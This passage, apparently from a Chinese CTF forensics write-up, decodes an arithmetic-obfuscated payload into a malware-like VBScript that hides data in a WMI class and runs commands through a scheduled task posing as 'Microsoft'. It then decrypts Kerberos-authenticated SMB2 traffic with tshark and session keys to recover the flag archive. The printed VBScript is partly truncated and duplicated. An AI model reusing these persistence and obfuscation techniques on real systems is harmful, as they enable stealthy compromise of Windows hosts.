86*6286-6254*727605/6555*-7295+7393*937358/8843*305214/3913*-8532+8633*578724/4989*389942/8477*634100/7460*711160/6184*884760/8760*-5118+5232*779766/9997*-6330+6427*1081498/9922*270983/2683*5894-5884*212896/6653*108512/3391*1711-1679*13056/408*-4463+4536*510918/5009*-1546+1578*7331-7246*-2980+3047*-5157+5254*472190/4106*802546/7946*63280/1582*85880/1130*1051-940*628506/6102*688380/6556*9543-9433*2314-2229*-3734+3849*351-250*-4023+4137*96022/2342*189920/5935*385154/6314*-3244+3276*67558/1987*7626-7543*-5569+5658*679438/8186*-4905+4989*685998/9942*-309+386*198220/5830*8164-8132*421596/5019*-3204+3308*824665/8165*1063920/9672*1322-1312*-1548+1580*258144/8067*3580-3548*7473-7441*357627/5183*988092/9149*2743-2628*280376/2776*-633+643*-7572+7604*4312-4280*-4218+4250*2353-2321*577752/7602*-6995+7106*-1789+1892*-182+287*1073490/9759*-4205+4290*-5663+5778*10084-9983*3980-3866*64160/2005*-3738+3799*2004-1972*8443-8374*-8960+9069*9674-9562*571532/4927*9416-9295*54220/5422*-340+372*-1991+2023*-1062+1094*9152-9120*-4244+4313*6538-6428*381000/3810*240256/7508*729781/9997*-4275+4377*3520/352*4146-4114*9102-9070*318240/9945*183744/5742*-1643+1710*5327-5230*149148/1381*5210-5102*-2055+2087*9898-9784*3555-3444*3189-3078*-1649+1765*4466-4396*4226-4115*2848-2740*-2922+3022*-7305+7406*1395-1281*-248+294*3430-3348*4211-4110*1885-1782*-9435+9540*-76+191*7796-7680*-3066+3167*763344/6696*245616/2924*-183+280*1548-1433*-430+537*4949-4881*881225/8725*5433-5331*-7219+7324*2137-2027*1009995/9619*1062444/9159*3936-3831*3582-3471*-7323+7433*-8893+8933*7763-7729*6187-6090*-5879+5929*-6883+6937*-265+313*46227/811*-2309+2409*-2729+2780*3765-3666*-1158+1203*465200/9304*2765-2716*6346-6291*308856/6056*7849-7804*211952/4076*-7312+7363*-7895+7992*7033-6981*59445/1321*406896/7266*497627/4927*4601-4544*-9360+9457*178380/3964*-8178+8227*-1337+1438*-5514+5571*521934/5117*635350/6550*41424/863*8868-8818*8744-8643*338296/3452*-4173+4221*101376/2112*5261-5164*4582-4548*-9076+9120*-7506+7538*706788/6093*2785-2688*-8752+8867*7096-6989*-3474+3542*-7888+7989*371586/3643*331170/3154*410300/3730*2411-2306*-8232+8348*7759-7654*-7362+7473*-651+761*358556/8149*-5723+5755*173556/3214*6132-6088*-2863+2895*-5399+5475*-5257+5368*305086/2962*-4651+4756*-4501+4611*502945/5917*1170-1055*6514-6413*1114008/9772*972-928*-5243+5275*-9602+9646*730-698*8794-8743*208198/5078*-8572+8582*8632-8600*163520/5110*3590-3558*1282-1250*557976/8328*247350/2550*781488/7236*1063476/9847*4234-4202*-833+947*90576/816*9238-9127*8181-8065*9214-9144*4304-4193*640116/5927*2840-2740*89688/888*9383-9269*8052-8006*5188-5120*430260/4260*-8621+8729*1121-1020*935076/8061*527018/5218*3851-3767*-9216+9313*9409-9294*-7673+7780*3750-3710*229398/6747*-9424+9521*2397-2347*137538/2547*1037-989*-150+207*578100/5781*1161-1110*-5618+5717*225675/5015*-3102+3152*460453/9397*-2720+2775*-8398+8449*405495/9011*7568-7516*-4456+4507*-7870+7967*1691-1639*-3001+3046*2229-2173*171801/1701*437190/7670*8079-7982*140580/3124*94178/1922*330674/3274*-2459+2516*10015-9913*5360-5263*5470-5422*-1535+1585*-3471+3572*7968-7870*8740-8692*459696/9577*153066/1578*-78+112*5626-5582*2065-2017*-9831+9872*-9277+9287*545-476*-612+722*5318-5218*6415-6383*-8957+9030*9969-9867*-6556+6566*1206-1196*9056-8986*6068-5951*2663-2553*-4749+4848*3458-3342*301980/2876*-835+946*-1361+1471*-6991+7023*-7134+7204*-2418+2523*9611-9503*617211/6111*652809/9461*711600/5930*899955/8571*-1744+1859*-9236+9352*-2388+2503*9840-9800*4351-4281*451080/4296*438048/4056*875569/8669*3387-3307*580060/5980*9641-9525*-9061+9165*77367/1887*-4741+4751*-4165+4197*189568/5924*-5035+5067*192608/6019*409107/4929*-1184+1285*-6317+6433*193472/6046*3969-3867*5322-5207*659673/5943*598-566*-4111+4172*3474-3442*95207/1421*141930/1245*-2457+2558*-9025+9122*-5900+6016*452379/4479*-4598+4677*7792-7694*1932-1826*2612-2511*120582/1218*-5911+6027*189960/4749*244630/7195*-2258+2341*-5132+5231*555978/4877*-485+590*4703-4591*-390+506*-9703+9808*-2284+2394*-9687+9790*823-777*590450/8435*1004325/9565*-5165+5273*8016-7915*-5106+5189*1099406/9086*887915/7721*5131-5015*991921/9821*835049/7661*692119/8761*549094/5603*312170/2945*3474-3373*5181-5082*-7452+7568*109888/3232*6756-6715*87070/8707*-5739+5771*195872/6121*1447-1415*7257-7225*9803-9730*678096/6648*-4716+4748*987666/9683*493-378*689865/6215*-5373+5419*9077-9007*8117-8012*-3760+3868*5628-5527*-9034+9103*1021920/8516*370860/3532*837315/7281*-4101+4217*-2259+2374*284520/7113*-6983+7053*323295/3079*1909-1801*-8380+8481*760960/9512*6695-6598*440916/3801*-6097+6201*-6664+6705*-5638+5670*1384-1300*-1818+1922*7112-7011*509520/4632*-6419+6429*4254-4222*20160/630*-3996+4028*8539-8507*9051-9019*179040/5595*32224/1007*136672/4271*-7170+7240*1531-1426*-9247+9355*4708-4607*-6255+6324*2212-2092*2324-2219*551080/4792*57304/494*-1943+2058*-6337+6398*4875-4808*4481-4415*-2226+2337*-334+445*568728/5266*449-409*286503/5847*295774/7214*-9682+9692*-2214+2246*5092-5060*192288/6009*1378-1346*294078/4262*-188+296*-6391+6506*374-273*68080/6808*-7877+7909*218176/6818*251744/7867*9657-9625*46144/1442*153600/4800*9819-9787*2266-2234*573930/8199*450-345*4515-4407*6620-6519*-2014+2083*821400/6845*3953-3848*505080/4392*-2665+2781*-6121+6236*2135-2074*-314+381*652-586*645243/5813*-1990+2101*125604/1163*-1505+1545*9913-9865*-7099+7140*72690/7269*2941-2909*-8860+8892*-5573+5605*30112/941*-2917+2986*430650/3915*-3926+4026*68960/2155*511803/7011*-1936+2038*52300/5230*-1860+1929*-1373+1483*-1702+1802*3538-3506*8775-8705*-1076+1193*779790/7089*-8483+8582*992728/8558*2869-2764*225885/2035*790020/7182*99010/9901*9883-9873*-34+104*-5542+5659*-743+853*-7835+7934*2811-2695*-7156+7261*-2517+2628*453200/4120*-7119+7151*-9813+9879*676187/6971*-4058+4173*359863/3563*9221-9167*6429-6377*34528/416*-8293+8409*887148/7782*575-470*8598-8488*746-643*-6381+6449*-2337+2438*853182/8618*52170/470*-8196+8296*-1286+1387*-4980+5020*1874-1808*232-111*-453+539*887-790*7544-7436*-2995+3027*7074-6956*-9340+9407*28083/253*701200/7012*4432-4331*7565-7524*-126+136*3006-2974*-3100+3132*-6950+6982*234240/7320*-3410+3493*856581/8481*4908-4792*1040-1008*9534-9423*-6522+6610*369831/4803*-7896+7972*-1586+1618*585844/9604*-2346+2378*5753-5686*8071-7957*767903/7603*5012-4915*8595-8479*-2601+2702*-2726+2805*-901+999*-5191+5297*7673-7572*8642-8543*8745-8629*8071-8031*1744-1710*-6028+6105*-6516+6631*1231-1111*-287+396*-7272+7380*-4299+4349*-5860+5906*531012/7809*40527/513*406-329*-3179+3247*-8809+8920*775269/7831*61074/522*5550-5441*936876/9276*-4936+5046*9169-9053*62356/1834*-5055+5096*2585-2575*3112-3080*102624/3207*8517-8485*-3942+3974*741439/8933*-6803+6904*1084252/9347*-3667+3699*192030/1730*-7595+7673*-9055+9166*4727-4627*-6893+6994*9321-9289*1377-1316*624-592*576756/5196*552728/6281*-2932+3009*534280/7030*108882/2367*3067-3000*270-156*9502-9401*8151-8054*851556/7341*2782-2681*388056/5624*-5067+5175*5142-5041*3277-3168*-2643+2744*4796-4686*284084/2449*-1484+1524*5711-5677*-8324+8422*-5971+6068*868250/7550*4499-4398*-8150+8204*-9758+9810*140216/4124*-7346+7387*59530/5953*-5934+5966*-6289+6321*-1197+1229*-7606+7638*-4155+4266*-9291+9369*-6323+6434*240500/2405*-6579+6680*-5287+5333*469300/4693*-80+177*3145-3029*-6467+6564*249816/2974*60621/501*3672-3560*880417/8717*-9836+9868*103334/1694*2109-2077*-5597+5631*-2486+2584*843465/8033*-2902+3012*-1280+1326*538412/5494*742-645*9081-8966*2508-2407*-1038+1092*-6222+6274*182172/5358*1008-998*5679-5647*8194-8162*-229+261*-7014+7046*6133-6022*448266/5747*465867/4197*-1599+1699*-519+620*-7469+7515*1614-1498*898900/8900*-9751+9871*918140/7915*147168/4599*328302/5382*7921-7889*-6855+6973*-5677+5744*2180-2069*8706-8606*9643-9542*81860/8186*197024/6157*304352/9511*5647-5615*931-899*137863/1661*5598-5497*1778-1662*8931-8899*2902-2836*2298-2193*8654-8544*855734/8822*1273-1159*2684-2563*645-562*-345+461*1070346/9389*5201-5100*156752/1616*-1567+1676*3215-3183*-639+700*270944/8467*21038/314*-5611+5725*632361/6261*131144/1352*-7022+7138*152005/1505*2941-2862*392-294*463326/4371*5518-5417*-3233+3332*9602-9486*-1592+1632*-5458+5492*-8815+8880*5897-5829*529458/6702*-6891+6959*646800/9800*9221-9175*2689-2606*-4781+4897*2960-2846*7381-7280*254722/2626*802785/7365*-9560+9594*-3522+3563*81060/8106*899-867*31648/989*109952/3436*3666-3634*6034-5968*-133+238*-6331+6441*473651/4883*188670/1655*1193423/9863*7405-7322*-6664+6780*9545-9431*3913-3812*-414+511*865351/7939*4091-4045*732816/8724*6382-6261*3624-3512*-3781+3882*871-839*1911-1850*25696/803*24353/497*66770/6677*214624/6707*6067-6035*174752/5461*24416/763*9903-9837*-1365+1470*-3386+3496*-1321+1418*-6919+7033*-5917+6038*258960/3120*9527-9411*-9883+9997*228260/2260*-6656+6753*1039751/9539*9647-9601*5526-5447*294-182*595-494*8656-8546*-2376+2386*8497-8465*504-472*303584/9487*179872/5621*-6526+6592*-757+862*395670/3597*-6655+6752*5485-5371*-6440+6561*596770/7190*-8263+8379*9378-9264*-5409+5510*-8529+8626*3804-3695*-9147+9193*617-530*8648-8534*-761+866*281300/2425*-5420+5521*6735-6703*-9087+9198*-3174+3252*8480-8369*9816-9716*4437-4336*1545-1499*-731+841*-7838+7949*292-192*355318/3518*131628/1567*2479-2358*8502-8390*908192/8992*413100/4131*-2375+2461*-1947+2044*-9250+9358*-4713+4830*4262-4161*4331-4321*-647+679*-4222+4254*221792/6931*-4907+4939*-9051+9117*392595/3739*1598-1488*-4332+4429*1924-1810*6980-6859*221859/2673*2362-2246*5744-5630*623170/6170*941288/9704*9429-9320*-2341+2387*85360/1067*564435/5085*9002-8887*-95+200*230840/1990*113820/1084*820734/7394*5982-5872*7741-7709*135054/2214*-7018+7050*7447-7399*84810/8481*31648/989*-9844+9876*7900-7868*8915-8883*-2762+2828*423255/4031*1568-1458*-8735+8832*264936/2324*1440-1319*-5605+5688*1135640/9790*5320-5206*8717-8616*-948+1045*3523-3414*356408/7748*9138-9054*371107/3067*4011-3899*708616/7016*292672/9146*-3568+3629*85664/2677*33200/664*11350/1135*-1727+1759*5745-5713*-7067+7099*-3761+3793*293358/7522*7428-7396*4560-4495*560-452*-7623+7731*188672/5896*658840/9412*791763/7133*2466-2352*366-257*-7275+7372*1151996/9931*-7497+7529*-175+236*-2164+2226*-8882+8914*4188-4156*355212/3036*225040/1940*110058/1079*422280/9384*230643/4707*406782/7533*6876-6768*-6603+6704*8174-8142*307215/6827*-492+524*1761-1644*-330+446*-9136+9238*9402-9357*-8405+8461*56480/1765*8032-7987*24704/772*-6573+6690*212512/1832*-2972+3074*-4858+4903*9312-9263*400680/7420*977724/9053*5302-5201*65620/6562*-8023+8055*2238-2206*-5019+5051*35200/1100*7508-7442*-8338+8443*578160/5256*190023/1959*5713-5599*591932/4892*1909-1826*25288/218*3055-2941*990911/9811*-5533+5630*5598-5489*375728/8168*-4555+4622*230568/2217*320779/3307*285684/2506*456334/5498*7851-7750*614452/5297*1304-1272*322995/5295*131072/4096*147866/4349*733-616*-3328+3444*9599-9497*-5461+5506*1230-1174*221578/6517*8547-8537*3608-3576*222720/6960*7408-7376*-1899+1931*8550-8484*4602-4505*-3924+4039*-4092+4193*9444-9390*347048/6674*9592-9509*-4549+4665*-3121+3235*-6113+6218*1585-1475*8780-8677*560592/8244*708212/7012*1027-928*4141-4030*-8003+8103*57166/566*3706-3674*258823/4243*32320/1010*3157-3091*4368-4263*2264-2154*-3196+3293*4097-3983*5557-5436*6974-6891*555292/4787*317604/2786*537421/5321*402841/4153*5037-4928*133860/2910*126444/1542*484598/4798*-7186+7283*-6745+6845*-793+877*6314-6213*115440/962*638348/5503*6303-6293*-706+738*2728-2696*4107-4075*263904/8247*-1521+1604*-982+1083*385468/3323*-233+265*22638/343*9698-9593*1036750/9425*-4941+5038*1107168/9712*-9484+9605*260786/3142*-9337+9453*286938/2517*853349/8449*326987/3371*-2173+2282*258912/8091*-8068+8129*7063-7031*6683-6605*-1973+2084*46284/399*-6874+6978*-4619+4724*5660-5550*852222/8274*3587-3577*112192/3506*-3917+3949*-838+870*215232/6726*-9254+9337*862439/8539*652848/5628*286880/8965*-9294+9405*631020/8090*2678-2567*9674-9574*-6388+6489*-8321+8353*-8097+8158*-1580+1612*-6139+6217*411921/3711*213208/1838*295256/2839*1047165/9973*-9663+9773*404584/3928*8693-8683*-1942+2011*255750/2325*499200/4992*-8786+8818*5694-5624*1108458/9474*8559-8449*-3375+3474*698552/6022*938490/8938*64047/577*678260/6166*36460/3646"

# 分割符号，先进行计算，再转换为字符
delimiter = chr(int(-2651+2693))  # 强制转换为整数

# 使用 Python 的 split 方法来模拟 VBScript 的 Split
tgCkvHzLfnluUjonbpHlONFeuZDEhZM = DgtsBdJtEpjIlKMcvpKuMkflhSPGhjk.split(delimiter)

PFdUCUBuebAkdpolqLKtaWRPdRgMinr = ""
# 遍历数组并拼接字符串
for ovAMSOWhTVsIBXdbZCDgELLDJUWTVRN in tgCkvHzLfnluUjonbpHlONFeuZDEhZM:
    PFdUCUBuebAkdpolqLKtaWRPdRgMinr = PFdUCUBuebAkdpolqLKtaWRPdRgMinr + chr(int(eval(ovAMSOWhTVsIBXdbZCDgELLDJUWTVRN)))

# 输出最终结果
print(PFdUCUBuebAkdpolqLKtaWRPdRgMinr)
```

得到

```
Dim command
command = Base64StringDecode("QzpcV2luZG93c1w3ei5leGUgeCAtcG9PQ0RMYmtaOU10dTY3QWx5aDh1QWFGSHk2S0RzQ2JHIC15IEM6XFdpbmRvd3

If FileExists("C:\Windows\Temp\windows-object-8e6e9f8c-20ff-4f7b-91a6-30ba2fa08e1a.log") Then
    inputFile = "C:\Windows\Temp\windows-object-8e6e9f8c-20ff-4f7b-91a6-30ba2fa08e1a.log"
    Set inStream = CreateObject("ADODB.Stream")
    inStream.Open
    inStream.type= 1 'TypeBinary
    inStream.LoadFromFile(inputFile)
    readBytes = inStream.Read()

    Set oXML = CreateObject("Msxml2.DOMDocument")
    Set oNode = oXML.CreateElement("base64")
    oNode.dataType = "bin.base64"
    oNode.nodeTypedValue = readBytes
    Base64Encode = oNode.text

    On Error Resume Next
    Set objTestNewInst = GetObject("Winmgmts:root\Cimv2:Win32_OSRecoveryConfigurationDataBackup.CreationClassName=""dbb7
    If Err.Number <> 0 Then
        Err.Clear
        wbemCimtypeString = 8
        Set objClass = GetObject("Winmgmts:root\cimv2:Win32_OSRecoveryConfigurationDataBackup")
        Set objInstance = objClass.spawninstance_
        objInstance.CreationClassName = "dbb76404-b72e-42fa-aa16-8a92bc066e11"
        objInstance.DebugOptions = Base64Encode
        objInstance.put_
    Else
    End If
Else
    Const TriggerTypeDaily = 1
    Const ActionTypeExec = 0
    Set service = CreateObject("Schedule.Service")
    Call service.Connect
    Dim rootFolder
    Set rootFolder = service.GetFolder("")
    Dim taskDefinition
    Set taskDefinition = service.NewTask(0)
    Dim regInfo
    Set regInfo = taskDefinition.RegistrationInfo
    regInfo.Description = "Update"
    regInfo.Author = "Microsoft"
    Dim settings
    Set settings = taskDefinition.settings
    settings.Enabled = True
    settings.StartWhenAvailable = True
    settings.Hidden = False
    settings.DisallowStartIfOnBatteries = False
    Dim triggers
    Set triggers = taskDefinition.triggers
    Dim trigger
    Set trigger = triggers.Create(7)
    Dim Action
    Set Action = taskDefinition.Actions.Create(ActionTypeExec)
    Action.Path = "c:\windows\system32\cmd.exe"
    Action.arguments = "/Q /c " & command & " 1> C:\Windows\Temp\windows-object-8e6e9f8c-20ff-4f7b-91a6-30ba2fa08e1a.log
    Dim objNet, LoginUser
    Set objNet = CreateObject("WScript.Network")
    LoginUser = objNet.UserName
    If UCase(LoginUser) = "SYSTEM" Then
    Else
    LoginUser = Empty
    End If
    Call rootFolder.RegisterTaskDefinition("a2609d3c-2173-43a4-8e9a-1e9fa02eb00a", taskDefinition, 6, LoginUser, , 3)
    Call rootFolder.DeleteTask("a2609d3c-2173-43a4-8e9a-1e9fa02eb00a",0)
End If

Function FileExists(FilePath)
    Set fso = CreateObject("Scripting.FileSystemObject")
    If fso.FileExists(FilePath) Then
        FileExists=CBool(1)
    Else
        FileExists=CBool(0)
    End If
End Function
    End If
End Function
End Function


Function Base64StringDecode(ByVal vCode)
Function Base64StringDecode(ByVal vCode)
    Set oXML = CreateObject("Msxml2.DOMDocument")
    Set oXML = CreateObject("Msxml2.DOMDocument")
    Set oNode = oXML.CreateElement("base64")
    oNode.dataType = "bin.base64"
    oNode.text = vCode
    Set BinaryStream = CreateObject("ADODB.Stream")
    BinaryStream.Type = 1
    BinaryStream.Open
    BinaryStream.Write oNode.nodeTypedValue
    BinaryStream.Position = 0
    BinaryStream.Type = 2
    ' All Format =>  utf-16le - utf-8 - utf-16le
    BinaryStream.CharSet = "utf-8"
    Base64StringDecode = BinaryStream.ReadText
    Set BinaryStream = Nothing
    Set oNode = Nothing
End Function
```

command 进行base64 解码，可以发现 flag.zip 的密码

```
C:\Windows\7z.exe x -poOCDLbkZ9Mtu67Alyh8uAaFHy6KDsCbG -y C:\Windows\flag.zip
```

然后现在最后就是要解密 SMB2 流量拿到 flag.zip ，解密就能得到 flag

因为使用 Kerberos 认证的 SMB2，使用 Administrator 的 keytab 解密后可以在 TGS-REP 中拿到对应的 sessionKey，wireshark 并没有实现 kerbeeros 认证下的 smb 流量自动解密，需要手动添加解开

学习：[Kerberos 认证过程详细分析（一） | MYZXCG](https://myzxcg.com/2021/08/Kerberos-%E8%AE%A4%E8%AF%81%E8%BF%87%E7%A8%8B%E8%AF%A6%E7%BB%86%E5%88%86%E6%9E%90%E4%B8%80/#ap_rep)

​​

> c475652caee0502bbf57d0583c8d02f7

​​

结合对应 SMB2 流量的 Session Id 即可解密：[SMB 解密 - TryHackMe ：： MWLab — Ladislav 的恶意软件实验室](https://malwarelab.eu/posts/tryhackme-smb-decryption/#method-2-decrypting-smb-with-the-ntlm-ha)

> Session Id：0x00002100001000140000

可以发现有很多 Session Id 和 kerberos sessionKey，而且他们是一一对应的，一个 kerberos sessionKey 解对应的 smb2，手动看太累了，还要对上，所以我们写个脚本来看

```
import os
import json
import re
from urllib.parse import unquote

'''
这里有个问题，外面必须是单引号，里面必须是双引号，不能换
'''
# 这是提取数据的命令，运行一次提取出来就可以注释了，不然后面调试可能有点慢
os.system('tshark -n -r SU_AD-new.pcapng -Y "tcp" -e kerberos.keyvalue -e smb2.sesid -T json > 2.json')

with open('2.json', 'r') as f:
    data = json.load(f)

smb2_sesid_list = []
kerberos_keyvalue_list = []

for num in data:
    layers = num.get('_source', {}).get('layers', {})
  
    # 检查 smb2.sesid 是否存在
    if 'smb2.sesid' in layers:
        sesid = layers['smb2.sesid']
        if len(sesid) > 0:
            smb2_sesid = sesid[0]
            # 去掉前缀 '0x'
            smb2_sesid = smb2_sesid[2:] if smb2_sesid.startswith('0x') else smb2_sesid
    
            # 将十六进制字符串分割成每两个字符一组
            byte_list = [smb2_sesid[i:i+2] for i in range(0, len(smb2_sesid), 2)]
    
            # 反转字节列表
            little_endian_byte_list = byte_list[::-1]
    
            # 将反转后的字节列表合并成一个新的十六进制字符串
            little_endian_hex_data = ''.join(little_endian_byte_list)
    
            smb2_sesid_list.append(little_endian_hex_data)
            print(f"Reversed smb2.sesid: {little_endian_hex_data}")
  
    # 检查 kerberos.keyvalue 是否存在
    if 'kerberos.keyvalue' in layers:
        keyvalue = layers['kerberos.keyvalue']
        if len(keyvalue) > 0:
            kerberos_keyvalue = keyvalue[0]
            kerberos_keyvalue_list.append(kerberos_keyvalue)
            print(f"kerberos.keyvalue: {kerberos_keyvalue}")

# 打印所有提取并反转的 smb2.sesid
print("All reversed smb2.sesid values:", smb2_sesid_list)

# 打印所有提取的 kerberos.keyvalue
print("All kerberos.keyvalue values:", kerberos_keyvalue_list)
```

​​

​​

​​

​​

就这样一一对应就行

|  |  |
| --- | --- |
| Session Id | sessionKey |
| 0500001000140000 | c475652caee0502bbf57d0583c8d02f7 |
| 2100001000140000 | 057ca236576c77a46c3974840f1a407f |
| 0d00001000140000 | 400ececb0dfa0b9e69debe0cd859b7b4 |
| 0900001000140000 | 2251c04efe1ea59d1d1871ef65ae1ce5 |
| 0100001000140000 | 9ea564454a9c0b1f68d152cb72e49baa |

然后再填入 SMB2 流量的 sessionID 即可解密

​

然后过滤 smb2 就能发现，smb2 流量都被解密了，并且在导出 SMB 对象中也能导出文件

